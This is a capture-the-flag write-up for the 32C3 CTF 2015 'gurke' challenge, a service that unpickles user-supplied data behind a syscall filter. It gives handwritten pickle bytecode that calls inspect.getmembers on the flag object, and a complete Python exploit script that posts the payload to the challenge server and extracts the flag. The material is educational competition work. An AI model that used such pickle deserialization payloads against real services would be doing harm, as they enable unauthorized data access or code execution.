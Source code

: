 # 32C3 CTF 2015 : gurke

**Category:** Misc
**Points:** 300
**Solves:** 106
**Description:**

> Non-standard [gurke](./gurke): <https://32c3ctf.ccc.ac/uploads/gurke> Talk to it via HTTP on <http://136.243.194.43/>.


## Write-up

"It's not a standard gurke" is quite accurate.
First it creates a flag object, which contains the flag in the "flag" attribute.
Then it establishes a syscall-filter which is quite restrictive.
Finally it does what we were looking for: A pickle.load with user supplied data:

    data = os.read(0, 4096)
    try:
      res = pickle.loads(data)
      print 'res: %r\n' % res
    except Exception as e:
      print >>sys.stderr, "exception", repr(e)


However the syscall-filter prevents us from suppling a pickled object with a malicious
__reduce__ function, instead we have to get hold of the "flag" object's flag attribute.

Therefore we have to write a little pickle bytecode:

    cinspect\ngetmembers\n(c__main__\nflag\ntR.\n

Which is based on the opcode overview found here:
http://svn.python.org/projects/python/trunk/Lib/pickle.py

The pickle interpreter works stack-based and the code above does the following (pseudocode):

    push inspect.getmembers
    push __main__.flag
    pop func
    pop arg
    push (func, arg)
    call func(arg)
    ret

Which basically calls inspect.getmembers(flag).
The output will include the flag attribute and it's value.

The complete exploit:

    import urllib, urllib2
    import re
    url = 'http://136.243.194.43/'
    # pickle bytecode
    # c:module:function pushes object on the stack
    # (: push mark object
    # t:  pop two top most stack elements + create tuple of them + push tuple
    # R: call callable top most stack element
    # .: rerturn
    req = urllib2.Request(url, data="cinspect\ngetmembers\n(c__main__\nflag\ntR.\n", headers={'Content-type': 'application/python-pickle'})
    response = urllib2.urlopen(req)
    the_page = response.read()
    flag = re.findall("32c3_.{25}", the_page)[0]
    print "flag: " + flag


## Other write-ups and resources

* <https://github.com/p4-team/ctf/tree/master/2015-12-27-32c3/gurke_misc_300#eng-version>
* <http://blukat29.github.io/2015/12/32c3ctf-gurke/>
* <https://github.com/krx/CTF-Writeups/tree/master/32C3%202015/misc300%20-%20gurke>
* <http://nopat.ch/2015/12/29/32c3ctf-misc-gurke/>
* <http://katc.hateblo.jp/entry/2015/12/30/154329>
* <http://pastebin.com/JikU89uJ>
